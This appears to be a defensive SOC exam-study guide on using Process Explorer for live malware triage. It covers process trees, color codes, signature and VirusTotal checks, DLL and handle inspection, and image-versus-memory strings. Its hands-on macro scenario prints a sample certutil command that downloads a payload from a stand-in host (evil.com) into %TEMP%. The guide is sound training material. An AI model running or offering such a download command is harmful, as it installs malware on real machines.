




# Process Explorer for Deep Process Inspection

## TCM Exam Objectives

- Use Process Explorer's hierarchical tree view to detect anomalous parent-child process relationships
- Interpret color coding: purple (packed), pink (service), green (new), red (terminated), dark grey (suspended)
- Enable Verify Image Signatures and VirusTotal integration for rapid binary assessment
- Inspect loaded DLLs (Ctrl+D) for unsigned modules loaded by signed Microsoft processes
- Use the TCP/IP tab to attribute network connections to specific processes and detect C2 beaconing
- Compare Image vs Memory strings to identify packers, crypters, and code injection
- Use Find Handle or DLL (Ctrl+F) to locate which process has loaded a specific malicious file
- Identify suspicious file path patterns: %TEMP%, %APPDATA%, C:\Users\Public\, C:\ProgramData\
- Pivot from Process Explorer to Autoruns to identify and remove persistence mechanisms

Process Explorer provides deep visibility into every running process on a Windows system---parent-child relationships, full command-line arguments, loaded DLLs, open handles, network connections, digital signature verification, and VirusTotal integration. The hierarchical tree view reveals anomalous process lineage that Task Manager cannot show, making it the essential tool for live malware triage in SOC investigations.

- Process tree analysis with parent-child relationship detection
- Color coding: purple (packed), pink (service), green (new), red (terminated)
- VirusTotal integration for multi-engine malware scanning
- DLL and handle inspection for code injection detection
- TCP/IP tab for process-attributed network connections
- Image vs Memory strings comparison for packer and injector detection



> 📌 **Exam Tip:** The Strings tab comparison between Image (disk) and Memory (runtime) is a powerful packed/injected code detector. A clean binary on disk but suspicious strings (C2 IPs, embedded commands) in memory indicates the process was modified after loading — classic packer, crypter, or process injection behavior. Significant Image vs Memory string divergence is always a red flag on the PSAA exam.

## Core Interface and Configuration

Launch as Administrator. Configure these options immediately:

1. **Options -> Verify Image Signatures**: Checks each process against Microsoft's signature database
2. **Options -> VirusTotal.com -> Check VirusTotal.com**: Submits hashes to multi-engine malware scanner

Add critical columns via **View -> Select Columns**:

| Column | Forensic Purpose |
|--------|------------------|
| Command Line | Full arguments including malicious URLs, encoded PowerShell |
| Autostart Location | Shows if process is configured for auto-start |
| Image Path | Full executable path |
| Verified Signer | Signature status |
| VirusTotal | Detection ratio |
| User Name | Security context |
| Integrity Level | Low, Medium, High, System |

## Process Tree and Color Coding

Process Explorer organizes processes in a hierarchical tree. Colors provide instant visual triage:

| Color | Meaning | SOC Relevance |
|-------|---------|---------------|
| **Purple** | Packed image (compressed/encrypted) | High-risk indicator |
| **Pink** | Service hosting process | Normal for svchost.exe |
| **Green** | Newly created process | Temporary, fades after seconds |
| **Red** | Just terminated | Flashing red indicates malware that self-terminates |
| **Dark Grey** | Suspended process | Possible process hollowing |
| **Yellow** | .NET process or relocated DLL | |
| **Brown** | Job object process | Browser sandboxes |

### Suspicious Parent-Child Combinations

| Parent -> Child | Why Malicious |
|----------------|---------------|
| `winword.exe` -> `cmd.exe` / `powershell.exe` | Macro-based delivery |
| `wscript.exe` -> `powershell.exe` | Script-to-shell chain |
| `powershell.exe` -> `certutil.exe` / `bitsadmin.exe` | Payload download |
| `svchost.exe` -> `cmd.exe` / `powershell.exe` | Code injection into service host |
| `services.exe` -> binary from `%TEMP%` | Malicious service |
| `winlogon.exe` -> `cmd.exe` | Backdoor or credential dumping |
| `explorer.exe` -> binary from `%TEMP%` | User double-clicked malware |

> 📌 **Exam Tip:** When using Process Explorer's VirusTotal integration, remember that a 0/72 detection ratio does NOT guarantee the binary is safe. It only means no antivirus engine on VirusTotal flagged it at the time of submission. Fileless malware, custom-compiled tools, and zero-day exploits often have 0/72. Always correlate the VirusTotal result with behavioral indicators: parent-child anomalies, suspicious command lines, and network connections to unusual destinations.

## VirusTotal Integration

When enabled, Process Explorer calculates the SHA-256 hash of each running executable and submits it to VirusTotal. The result appears as a ratio like `0/72` or `3/72`.

| Result | Interpretation |
|--------|---------------|
| 0/72 | No engines detect; likely benign |
| 1/72 to 3/72 | Few engines flag; possible false positive |
| 4/72 to 10/72 | Suspicious; investigate immediately |
| 10+/72 | Almost certainly malicious |

## DLL and Handle Inspection

### Loaded DLLs (Ctrl+D)

View all DLLs loaded by a selected process. Look for:
- Unsigned DLLs loaded by a verified Microsoft process
- DLLs loaded from `%TEMP%`, `%APPDATA%`, `C:\Users\Public\`
- Suspicious names mimicking system files

### Open Handles (Ctrl+H)

View all handles (files, registry keys, mutexes, events) opened by a process. Look for:
- File handles pointing to suspicious locations
- Random-string mutex names (malware single-instance guard)
- Registry handles to ASEP locations (Run keys, services)

### Find Handle or DLL (Ctrl+F)

Searches all processes for a specific file or DLL. Essential for identifying which process has loaded a discovered malware DLL or locked a suspicious file.

## TCP/IP Network Connections

Open a process's **Properties -> TCP/IP** tab to see every active network connection attributed to that process. Look for:

- Connections to known-bad IPs
- Unusual ports (4444, 1337, 8080)
- Multiple connections to the same remote IP (beaconing)
- Process that shouldn't be networking (notepad.exe)
- Listening sockets on high ports (bind shell)

The **Stack** button reveals the specific DLL or driver responsible for the connection---critical for identifying injected code.

## Memory Strings: Image vs Memory

The **Strings** tab in process Properties compares strings found in the executable file on disk (Image) against strings found in loaded memory (Memory).

- **Image**: Strings in the binary file on disk
- **Memory**: Strings in the process's runtime memory

Significant differences between Image and Memory strings indicate the process was modified after loading---a hallmark of packers, crypters, or code injection. Look for C2 IPs, domain names, file paths, and command keywords that appear only in Memory.

## Investigation Workflow



### Phase 1: Initial Triage

1. Launch as Administrator
2. Enable Verify Image Signatures and VirusTotal
3. Add Command Line, Image Path, Verified Signer, User Name columns
4. Scan for purple (packed) processes, non-zero VirusTotal ratios, unsigned images

### Phase 2: Inspect Suspicious Processes

For each candidate:
- **Image tab**: Full path, command line, parent process, signature
- **TCP/IP tab**: Network connections, thread stack
- **Strings tab**: Compare Image vs Memory for anomalies
- **Ctrl+D**: View loaded DLLs for unsigned or suspicious modules
- **Ctrl+H**: View handles for suspicious file or registry access

### Phase 3: Build Process Tree

Trace parent-child relationships. Note any anomalous combinations and identify the full attack chain from initial access to payload.

### Phase 4: Pivot to Persistence

Open Autoruns and search for the executable path identified in Process Explorer. Identify the ASEP (Run key, Scheduled Task, Service) that launches the malware.

<details>
<summary>Hands-On: Macro Download Attack</summary>

**Scenario**: EDR alert indicates `winword.exe` spawned `cmd.exe` on workstation.

**Process Tree**:
```
winword.exe (PID 1234)
 └─ cmd.exe (PID 5678) /c powershell -EncodedCommand ...
      └─ powershell.exe (PID 9012)
           └─ certutil.exe (PID 3456) -urlcache -f http://evil.com/payload.exe %TEMP%\payload.exe
```

**Findings**:
- VirusTotal: payload.exe detected by 45/72 engines
- Signature: unsigned (Unable to Verify)
- Network: certutil.exe connected to evil.com:80
- Persistence: Run key HKCU\...\Run\Updater -> %TEMP%\payload.exe

**Conclusion**: True positive. Macro-enabled document downloaded and executed persistent malware.
</details>



## Quick Reference

### Shortcuts

| Shortcut | Action |
|----------|--------|
| Ctrl+D | Show DLLs in lower pane |
| Ctrl+H | Show Handles in lower pane |
| Ctrl+F | Find Handle or DLL |
| Del | Kill selected process |

### Colors

| Color | Meaning |
|-------|---------|
| Purple | Packed (compressed/encrypted) |
| Pink | Service hosting process |
| Green | Newly created |
| Red | Terminated |
| Dark Grey | Suspended |

### Suspicious File Path Patterns

- `C:\Users\<user>\AppData\Local\Temp\`
- `C:\Users\<user>\AppData\Roaming\`
- `C:\Users\Public\`
- `C:\ProgramData\` (subfolder with random name)
- `C:\Windows\Temp\`



## Recap

Process Explorer provides hierarchical process tree visualization with color-coded indicators for packed (purple), new (green), and terminated (red) processes. VirusTotal integration enables rapid multi-engine scanning of process hashes. DLL (Ctrl+D) and Handle (Ctrl+H) inspection reveals injected code and suspicious file/registry access. The Strings tab comparing Image vs Memory content detects packers and code injection. Network connections are attributed per-process via the TCP/IP tab. Always pivot from a suspicious process in Process Explorer to Autoruns to identify the persistence mechanism.
